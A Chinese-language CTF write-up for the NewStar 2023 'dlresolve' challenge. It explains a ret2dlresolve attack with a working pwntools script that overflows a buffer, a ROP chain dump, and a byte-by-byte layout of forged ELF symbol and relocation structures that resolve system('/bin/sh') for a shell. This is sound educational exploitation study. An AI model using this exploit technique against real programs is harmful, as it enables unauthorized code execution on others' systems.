 ```yaml
---
title: newstar2023 week3 - dlresolve
date: 2023/10/10 12:00:00
tags:
    - ret2dlresolve
thumbnail: /assets/newstar2023/relro.png
excerpt: 使用pwntools实现ret2dlresolve漏洞利用，简化了官方复杂的解题方式。
---
```


## 文件分析

NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

题目提示了使用ret2dlresolve，我们可以直接使用pwntools的工具生成

官方题解用了比较复杂的方式，而且与脚本实现也有很多不同，所以我就想弄清楚 pwntools
与官方题解有什么区别，因此下文只解析pwntools的实现，文末我也会把官方题解放上

## EXPLOIT

```python
# copy from official sample
from pwn import *
def payload():
    global sh
    context.arch = 'amd64'
    sh = gdb.debug('dlresolve')
    elf = ELF('dlresolve')

    bssHigh = 0x404500
    readAddr = 0x401192
    leaveRetAddr = 0x4011a9
    retAddr = 0x4011aa

    rop = ROP(elf)
    dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=["/bin/sh"])
    rop.read(0, dlresolve.data_addr)
    rop.ret2dlresolve(dlresolve)
    raw_rop = rop.chain()

    sh.sendline(b'0'*120 + p64(retAddr) + raw_rop)
    sh.sendline(dlresolve.payload)
    sh.interactive()

payload()
```

## Ret2Dlresolve对象详解

相比起官方脚本，用工具生成不但简单，而且payload也短，以下是我的研究结果

使用`rop.dump()`，我们得以窥见rop攻击的具体含义：
```
0x0000:         0x40116b pop rsi; ret
0x0008:         0x404e00 [arg1] rsi = 4214272
0x0010:         0x40115e pop rdi; ret
0x0018:              0x0 [arg0] rdi = 0
0x0020:         0x401064 read
0x0028:         0x40115e pop rdi; ret
0x0030:         0x404e38 [arg0] rdi = 4214328
0x0038:         0x401020 [plt_init] system
0x0040:            0x30b [dlresolve index]
```
> ps: 复盘的时候忘记加`context.arch = 'amd64'`了，dump结果都变了，一定要注意！

到read都不必我说，接下来pop的rdi，是指向伪造出来的"/bin/sh"字符串的指针，
这样就能在解析完成后指定参数打开shell；然后0x401020是plt_init的地址，
这个“函数”做两件事：将link_map压到栈上，然后执行`dl_runtime_resolve`函数进行加载  
栈上还有一个index，是下图中的reloc_arg，可以由此指向伪造的ElfRel

那么这里为什么reloc_arg是0x30b呢？查了以下pwntools的源码，计算可推出如下关系：
`reloc_arg * ElfRel.size + __DT_SYMTAB -> &fakeRel`  
因为64位下ElfRel的大小是24字节，计算中可以将24带入；__DT_SYMTAB是指`__DT_SYMTAB`这个标签的地址；
这里使用'->'是因为这两边并不一定相等，而是存在对齐调整的  
至此，`rop`部分已经分析完毕

接下来是`dlresolve.payload`部分：这一部分没有`dump`函数，只有bytes，
不过动调以后也逐渐搞明白了其结构，接下来用伪c代码，按结构展开各个字节对应的内容  
（前面的标号是字段在payload中的起始地址）
```c
0:  "system\0a" // 'a' for padding
Elf64_Sym fakeSym = {
8:  st_name = 0x49a8, // __DT_STRTAB + st_name == (char *)"system"
12: st_info = 0,
13: st_other = 0,
14: st_shndx = 0,
16: st_value = 0,
24: st_size = 0
} // size: 24
Elf64_Rel fakeRel = {
32: r_offset = 0x404e00,    // 解析完的地址存放的地址（伪造got）
40: r_info = 0x31800000007, // __DT_SYMTAB + 0x318 * 24 == &fakeSym
48: r_append = 0
} // size: 24
56: "/bin/sh\0" // argument
```
共计64字节，无关的条目全部填0，需要伪造的条目已经在后面写上了注释，具体dlresolve的执行流程见下图：  
![图解](/assets/newstar2023/relro.png)  
可以看到，所生成的结构在函数解析中一次次被使用，没有任何多余

如果到这里还觉得迷迷糊糊的话，建议动调步进观察`dl_fixup`函数的运行情况；
此外我在研究的时候也离不开[这篇知乎文章](https://zhuanlan.zhihu.com/p/134105591)的深入讲解，
搭配两者一起使用，是能理解其中奥秘的根本

另外，作者还提到了其他文章所没有介绍的Full Relro的利用方法，也可以学习一下

## 参考文献

1. [图片来源文章](https://blog.csdn.net/IO1n0/article/details/103323738 "透过深入分析延迟绑定了解 ret_2_dl_resolve:1Oin0的博客")
2. [深入讲解动态加载技术的知乎文章](https://zhuanlan.zhihu.com/p/134105591 "深入窥探动态链接:1Oin0的看雪论坛文章")
3. [官方题解](https://shimo.im/docs/QPMRxzGktzsZnzhz/read "详见dlresolve一节")
4. [dlresolve官方示例](https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html#module-pwnlib.rop.ret2dlresolve "pwnlib.rop.ret2dlresolve")
5. [dlresolve源码](https://github.com/Gallopsled/pwntools/blob/2e09b7dd91/pwnlib/rop/ret2dlresolve.py "pwntools/pwnlib/rop/ret2dlresolve.py @ GitHub")

Done.
